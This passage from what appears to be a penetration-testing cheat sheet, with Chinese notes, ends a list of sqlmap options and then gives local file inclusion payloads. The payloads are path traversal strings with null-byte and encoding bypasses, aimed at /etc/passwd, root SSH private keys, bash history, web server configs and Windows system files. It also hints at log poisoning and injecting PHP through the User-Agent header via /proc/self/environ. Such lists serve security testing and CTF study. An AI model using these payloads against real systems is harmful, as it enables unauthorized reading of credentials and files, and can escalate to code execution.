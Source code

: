             - default: 1
        - `--technique`
            - default: `BEUSTQ`
        - Cookie: `--cookie="abc=55667788"`
                                                                                 


# LFI

## Testing Payload

### Linux / Unix

- `../../../../../../etc/passwd`
- `../../../../../../etc/passwd%00`
    - 僅在5.3.0以下可用
    - magic_quotes_gpc需為OFF
- `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- `ＮＮ/ＮＮ/ＮＮ/etc/passwd`
- `/var/log/apache2/error.log`
- `/var/log/httpd/access_log`
- `/usr/local/apache2/conf/httpd.conf`
- `/usr/local/etc/apache2/httpd.conf`
- `/etc/nginx/conf.d/default.conf`
- `/etc/nginx/nginx.conf`
- `/etc/nginx/sites-enabled/default.conf`
- `.htaccess`
- `/root/.bash_history`
- `/root/.ssh/id_rsa`
- `/root/.ssh/authorized_keys`

### Windows

- `C:/Windows/win.ini`
- `C:/boot.ini`
- `C:/apache/logs/access.log`
- `../../../../../../../../../boot.ini/.......................`
- `C:/windows/system32/drivers/etc/hosts`

## 環境變數

- `../../../../proc/self/environ`
    - HTTP_User_Agent塞php script

## log文件

- apache log
- mysql log
- ssh log
    - `/var/log/auth.log`
